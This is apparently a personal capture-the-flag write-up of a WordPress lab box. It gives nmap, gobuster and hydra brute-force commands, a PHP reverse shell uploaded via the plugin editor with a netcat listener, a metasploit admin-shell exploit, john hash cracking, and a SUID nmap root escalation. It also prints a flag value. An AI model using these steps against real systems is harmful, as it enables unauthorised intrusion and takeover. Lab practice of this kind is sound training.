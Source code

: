 export ip=10.10.228.196

# information gathering
# tool - nmap
 - `sudo nmap -sS $ip`
   - Open ports 21, 22, 80
 - `nmap -sC -sV -oN nmap.log $ip`
   - 
   - 80: Apache/2.4.18
   - 22: OpenSSH 7.2p2

# tool - gobuster
 - `gobuster dir -t 100 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -x php,txt,html -u http://$ip | tee gobuster.log`

# tool - hydra
 - hydra -L lists/usrname.txt -P lists/pass.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

# process
 - tried robots.txt and it had a file name, so tried accessing that which had the first key. - 073403c8a58a1f80d943455fb30724b9
 - robots had another file name which when accessed a file was downloaded. the file content was a list of words.
 - trying to use hydra for bruteforcing wordpress login
 - tried different usernames for hydras -l option, but finally tried the username `elliot` as it is the name of mrrobot in $ip/wp-login.php?action=lostpassword and it showed the email couldn't be send message which confirms this is the username, nothing worked
   - this could have been done using hydra and the dictionary file we got. So bruteforcing becomes a 2 step process.
     - 1. `hydra -L fsociety.dic -p test` 
     - 2. `hydra -l <username> -P fsociety.dic`
     - eg: `hydra -L lists/usrname.txt -P lists/pass.txt localhost -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`
 - So then I went through all the files and dirs listed by gobuster with 200 as the status code, after hydra is finished, because if we run both simultaneously, it would crash the server
 - I went to $ip/readme which didn't have and checked the source, nothing peculiar, but then I went to $ip/license. in the source of this webpage I found one base64 encoded string, so decoded it and found it has what seemed like username:password format string. the username part had `elliot` so obviously I tried the password from this string on the wordpress login page and viola, we are in.
 - considering we have admin access for wordpress, we can upload a shell using this to gain access to the server, we will use metasploit for this.
   - We can use any reverse shell [example](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) and upload it from the theme editor in wordpress and access that url to get connected to the reverse shell
     - On the other side we can use rlwrap nc -lnvp 5432
   - using exploit `unix/webapp/wp_admin_shell_upload` and setting the relevant options as required
   - metasploit has a check for verifying the wordpress installtion, but considering the `/` of the $ip doesn't show wordpress home, we can disable this check using `set WPCHECK false` in msfconsole to make it work.
   - running th exploit shows it was not able to do it for some reason. So enabled httptracing for msfconsole using the command `set httptrace true` to see what is going on. This showed, the installation of the plugin was successful but activation failed. opened the wp admin panel's plugin page and it was indeed installed, so tried activating it manually. and it worked but it took more time than usual, this could be a timeout issue. setting the timeout for msfconsole to a higher value byt `set httpclienttimeout 60`
   - That worked, now we got the meterpreter session and looking at the home of the user robot, we see there are 2 files, the 2nd key and some password hash
   - Tried to view the key with no luck, not able to download thekey as well. So checked permissions and we don't have permissions, but it seems like we can read the hash file, so used `cat password.raw-md5` to get the hash.
   - `john --format=Raw-MD5 hash.txt` outputs `emarald`
   - But for some reason meterpreter is giving me so many issues, so I will just use the other shell method to get the reverse shell.
   - Got the shell using a php reverse shell(edit it with the ip of my system and `4444`) from pentest monkey and changed the content of one of the plugins by editing it from wordpress admin pabel
   - `$ip/wp-content/plugins/pluginname/pluginfile.php` is usually the url of the plugin files, so accessing that after running `rlwrap nc -lnvp 4444` will give you a shell
   - In that shell we will try `su robot` as that is what we require to see the content of the key2 file which inside the robots home dir.
   - Once we get that, we have to go priv escalation. For that we will run the command to see if there are any binaries with SUID set
     - `find / -perm -u=s -type f 2>/dev/nul`
     - here we see nmap has suid set, so nmap can actually spawn a root shell.
     - so starting nmap in interactive mode using `nmap --interactive` and then typing `!sh` will get you root shell using which you can go to root users home dir and see the 3rd and final answer.